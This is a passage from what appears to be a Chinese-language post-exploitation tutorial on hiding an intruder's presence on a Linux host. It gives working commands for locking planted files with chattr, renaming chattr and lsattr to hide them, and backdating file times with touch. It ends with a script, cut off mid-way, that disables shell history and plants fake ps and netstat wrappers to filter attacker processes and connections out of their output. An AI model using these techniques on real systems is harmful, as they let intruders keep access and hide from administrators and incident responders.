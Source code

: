*   d：将文件或目录排除在倾倒操作之外
    
*   i：不得任意更动文件或目录
    
*   s：保密性删除文件或目录
    
*   S：即时更新文件或目录
    
*   u：预防意外删除
    

实战中常用的为 +a (只能追加，不能删除) 与 +i (不能更改) ：

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVN6Of5ZPticgRic2X0xxzZMPGRv3OEicZzkVL7ic8zSxvN1ThfZAiaGF26iaHBpQTLLSibvsYQgefuHxUrw/640?wx_fmt=png)

这里，还需要将 chattr 与 lsattr 命令进程隐藏：

```
mv /usr/bin/chattr /usr/bin/cht
mv /usr/bin/lsattr /usr/bin/lst
```

_**No.4  
**_

_**文件时间修改**_

touch -acmr /bin/ls /usr/bin/cht (修改 后一个文件时间 与 前一个文件时间 一致)

**参数**

*   -a：改变访问时间为当前时间
    
*   -m：改变修改时间为当前时间
    
*   -c：文件不存在不新建文件
    
*   -r：使用参考文件的时间
    
*   -d：设置为指定时间
    
*   -t：设置档案的时间记录
    

_**No.5  
**_

_**附: sh 脚本**_

```
# !/bin/bash

# history
# unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0

# ps
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps
# !/bin/bash
/bin/ps \$@ | grep -Ev 'name|address|port'
/usr/bin/ps \$@ | grep -Ev 'name|address|port'
EOF

chmod +x /usr/local/bin/ps && touch -acmr /bin/ps /usr/local/bin/ps

# netstat
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
# !/bin/bash
/bin/netstat \$@ | grep -Ev 'name|address|port'
/usr/bin/netstat \$@ | grep -Ev 'name|address|port'
```